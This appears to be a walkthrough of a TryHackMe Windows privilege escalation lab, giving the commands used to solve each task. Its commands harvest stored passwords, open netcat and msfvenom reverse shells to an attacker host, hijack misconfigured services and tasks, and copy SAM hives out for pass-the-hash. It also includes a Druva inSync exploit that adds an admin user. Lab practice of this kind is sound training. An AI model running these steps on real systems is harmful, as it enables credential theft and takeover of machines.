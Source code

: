 # Windows Privilege Escalation

### Windows Privilege Escalation
- Users that can change system configurations are part of which group? `Administrators`
- The SYSTEM account has more privileges than the Administrator user (aye/nay) `aye`

### Harvesting Passwords from Usual Spots
- A password for the julia.jones user has been left on the Powershell history. What is the password? <br />
Open powershell and run: `type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`<br />
![image](https://github.com/user-attachments/assets/e4b7008f-1c12-4681-9215-9e4f01753be4)<br />
`ZuperCkretPa5z`
- A web server is running on the remote host. Find any interesting password on web.config files associated with IIS. What is the password of the db_admin user? <br />
Run the following command: `type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString` <br />
![image](https://github.com/user-attachments/assets/8395e424-e937-47e8-8fa4-85716d494cf9)<br />
`098n0x35skjD3`
- There is a saved password on your Windows credentials. Using cmdkey and runas, spawn a shell for mike.katz and retrieve the flag from his desktop. <br />
![image](https://github.com/user-attachments/assets/f30bfd39-b6fa-430c-ae6d-3f29f573f0e1)<br />
So let's open a terminal with these credentials; run `runas /savecred /user:mike.katz cmd.exe`: and get the flag <br />
![image](https://github.com/user-attachments/assets/a507f4b3-23e7-4ce5-8048-5b235a5f0d18)<br />
`THM{WHAT_IS_MY_PASSWORD}`
- Retrieve the saved password stored in the saved PuTTY session under your profile. What is the password for the thom.smith user? <br />
Run `reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s`: <br />
![image](https://github.com/user-attachments/assets/ee75771b-193b-4717-a68a-f3d76558bfd0)<br />
`CoolPass2021`

### Other Quick Wins
- What is the taskusr1 flag?<br />
If we run `schtasks /query /tn vulntask /fo list /v`:<br />
![image](https://github.com/user-attachments/assets/3642d6aa-877b-4223-bcad-b22e79dc94af)<br >
we can see the same scheduled file described in this task. So let's just follow the steps. So, set up a netcat listener on your attackbox with `nc -lnvp 4444`. Now modify the scheduled task with the following command: `echo c:\tools\nc64.exe -e cmd.exe 10.10.192.202 4444 > C:\tasks\schtask.bat` (Remember to run this on cmd, not powershell). <br />
Now we can run the task with the following command `schtasks /run /tn vulntask` to spawn a reverse shell: <br />
![image](https://github.com/user-attachments/assets/0726bbbc-3910-4a5a-9361-f3a79b677f5a)<br />
So we can get the flag: <br />
![image](https://github.com/user-attachments/assets/6fd04d11-a13f-4f30-8796-5ff2cb5920c1)<br />


### Abusing Service Misconfigurations
- Get the flag on svcusr1's desktop. <br />
Follow the steps described in the task. So if we run `icacls C:\PROGRA~2\SYSTEM~1\WService.exe`<br />
![image](https://github.com/user-attachments/assets/b90186a0-a524-4236-8518-def13024ddb0)<br />
We can see that the EVERYONE group has modify permissions on this service. This means we can simply overwrite it with any payload of our preference, and the service will execute it with the privileges of the configured user account. <br />
So now let's create a reverse shell using msfvenom: `msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe`. Now open a web server on the attack box: `python3 -m http.server 8080`. And download it from the windows machine (using powershell): `wget http://ATTACKER_IP:8080/rev-svc.exe -O rev-svc.exe`: <br />
![image](https://github.com/user-attachments/assets/3373ddd3-a9c0-484c-9d44-39b1f871a705)<br />
Once the payload is in the Windows server, we proceed to replace the service executable with our payload. Since we need another user to execute our payload, we'll want to grant full permissions to the Everyone group as well:

      cd C:\PROGRA~2\SYSTEM~1\
      move WService.exe WService.exe.bkp
      move C:\Users\thm-unpriv\Desktop\rev-svc.exe WService.exe
      icacls WService.exe /grant Everyone:F

Now start a reverse listener on the attack box: `nc -lvp 4445`, and execute the service(from cmd): 

    C:\> sc stop windowsscheduler
    C:\> sc start windowsscheduler

![image](https://github.com/user-attachments/assets/33b15ca5-6750-4790-90a7-d5d29603dd76)<br />
`THM{AT_YOUR_SERVICE}`

- Get the flag on svcusr2's desktop.<br />
Following the steps on the task, if we run `sc qc "disk sorter enterprise"`<br />
![image](https://github.com/user-attachments/assets/196bffbe-5b69-4d1d-935c-3552622a13ad)<br />
We can see that the service is unquoted, and also is store inside C:\MyPrograms\. By default, this inherits the permissions of the C:\ directory, which allows any user to create files and folders in it. We can check this using `icacls`.
So again, create a reverse shell with msfvenom `msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4446 -f exe-service -o rev-svc2.exe` and transfer it to the windows machine. Open a netcat listener `nc -lnvp 4446`. Now on the windows machine(powershell):

      move C:\Users\thm-unpriv\rev-svc2.exe C:\MyPrograms\Disk.exe
      icacls C:\MyPrograms\Disk.exe /grant Everyone:F
And on cmd: 

      sc stop "disk sorter enterprise"
      sc start "disk sorter enterprise"
![image](https://github.com/user-attachments/assets/100489b4-da77-4ee5-b4f5-a8db1a86c427)<br />
`THM{QUOTES_EVERYWHERE}`
      
- Get the flag on the Administrator's desktop. <br />
If we run `accesschk64.exe -qlc thmservice`: <br />
![image](https://github.com/user-attachments/assets/d749c7d0-a0e0-4209-9a00-ceaa7c76a6c0)<br />
Here we can see that the BUILTIN\\Users group has the SERVICE_ALL_ACCESS permission, which means any user can reconfigure the service. So, lets create a payload with msfvenom: `msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4447 -f exe-service -o rev-svc3.exe`. <br />
Remember to grant permissions to Everyone to execute your payload: `icacls C:\Users\thm-unpriv\rev-svc3.exe /grant Everyone:F`. Now from cmd: `sc config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem`, and, after setting a netcat listener, restart the service to get the flag: `THM{INSECURE_SVC_CONFIG}`

### Abusing dangerous privileges
- Get the flag on the Administrator's desktop.<br />
Connect to the machine via RDP with the following command: `xfreerdp /u:THMBackup /p:CopyMaster555 /v:Target_IP`. Now run `whoami /priv` to check what permissions we have:<br />
![image](https://github.com/user-attachments/assets/48edef86-bfaa-4f08-b1b5-5c503423987c)<br />
As we can see have SeBackup / SeRestore available. So let's follow the steps provided in the task, and retrieve password hashes:

            reg save hklm\system C:\Users\THMBackup\system.hive
            reg save hklm\sam C:\Users\THMBackup\sam.hive
This will create a couple of files with the registry hives content. We can now copy these files to our attacker machine using SMB. We can use impacket's smbserver.py to start a simple SMB server with a network share in the current directory of our AttackBox. 

            mkdir share
            python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share
This will create a share named public pointing to the share directory, which requires the username and password of our current windows session. After this, we can use the copy command in our windows machine to transfer both files to our AttackBox:
            
            copy C:\Users\THMBackup\sam.hive \\ATTACKER_IP\public\
            copy C:\Users\THMBackup\system.hive \\ATTACKER_IP\public\
And use impacket to retrieve the users' password hashes:<br />
![image](https://github.com/user-attachments/assets/911c0de8-f383-4873-b552-598fb4dff3e4)<br />
We can finally use the Administrator's hash to perform a **Pass-the-Hash** attack and gain access to the target machine with SYSTEM privileges: <br />
![image](https://github.com/user-attachments/assets/8dd9d33e-420e-4b0f-a906-770a7abc9913)<br />
`THM{SEFLAGPRIVILEGE}`

### Abusing vulnerable software
- Get the flag on the Administrator's desktop. <br />
Run the following code in powershell:

            $ErrorActionPreference = "Stop"
            
            $cmd = "net user pwnd SimplePass123 /add & net localgroup administrators pwnd /add"
            
            $s = New-Object System.Net.Sockets.Socket(
                [System.Net.Sockets.AddressFamily]::InterNetwork,
                [System.Net.Sockets.SocketType]::Stream,
                [System.Net.Sockets.ProtocolType]::Tcp
            )
            $s.Connect("127.0.0.1", 6064)
            
            $header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")
            $rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")
            $command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd");
            $length = [System.BitConverter]::GetBytes($command.Length);
            
            $s.Send($header)
            $s.Send($rpcType)
            $s.Send($length)
            $s.Send($command)
Now open cmd as administrator: <br />
![image](https://github.com/user-attachments/assets/077c43b8-b402-4196-a118-39cbf1add669)<br />
![image](https://github.com/user-attachments/assets/1c48b90d-317d-4dbf-81ad-32d68794e1e4)<br />
`THM{EZ_DLL_PROXY_4ME}`

                  

